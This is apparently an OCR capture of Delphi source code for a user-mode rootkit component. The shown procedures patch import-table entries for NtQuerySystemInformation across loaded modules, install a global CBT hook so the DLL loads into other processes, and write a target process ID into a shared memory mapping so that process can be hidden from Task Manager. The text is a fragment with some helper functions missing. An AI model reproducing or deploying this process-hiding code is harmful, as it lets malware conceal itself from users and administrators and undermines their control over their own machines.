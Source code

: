     procedure UninterceptFunctions;
    var
      hSnapShot: THandle;
      me32: MODULEENTRY32;
    begin
      addr_NtQuerySystemInformation := GetProcAddress(getModuleHandle('ntdll.dll'),
        'NtQuerySystemInformation');
      hSnapShot := CreateToolHelp32SnapShot(TH32CS_SNAPMODULE, GetCurrentProcessId);
      if hSnapshot = INVALID_HANDLE_VALUE then
        exit;
      try
        ZeroMemory(@me32, sizeof(MODULEENTRY32));
        me32.dwSize := sizeof(MODULEENTRY32);
        Module32First(hSnapShot, me32);
        repeat
          ReplaceIATEntryInOneMod('ntdll.dll', @MyNtQuerySystemInfo,
            addr_NtQuerySystemInformation, me32.hModule);
        until not Module32Next(hSnapShot, me32);
      finally
        CloseHandle(hSnapShot);
      end;
    end;
     
    var
      HookHandle: THandle;
     
    function CbtProc(code: integer; wparam: integer; lparam: integer): Integer;
      stdcall;
    begin
      Result := 0;
    end;
     
    procedure InstallHook; stdcall;
    begin
      HookHandle := SetWindowsHookEx(WH_CBT, @CbtProc, HInstance, 0);
    end;
     
    var
      hFirstMapHandle: THandle;
     
    function HideProcess(pid: DWORD; HideOnlyFromTaskManager: BOOL): BOOL; stdcall;
    var
      addrMap: PDWORD;
      ptr2: PBOOL;
    begin
      mypid := 0;
      result := false;
      hFirstMapHandle := CreateFileMapping($FFFFFFFF, nil, PAGE_READWRITE, 0, 8,
        'NtHideFileMapping');
      if hFirstMapHandle = 0 then
        exit;
      addrMap := MapViewOfFile(hFirstMapHandle, FILE_MAP_WRITE, 0, 0, 8);
      if addrMap = nil then
      begin
        CloseHandle(hFirstMapHandle);
        exit;
      end;
      addrMap^ := pid;
      ptr2 := PBOOL(DWORD(addrMap) + 4);
      ptr2^ := HideOnlyFromTaskManager;
      UnmapViewOfFile(addrMap);
      InstallHook;
      result := true;
    end;
     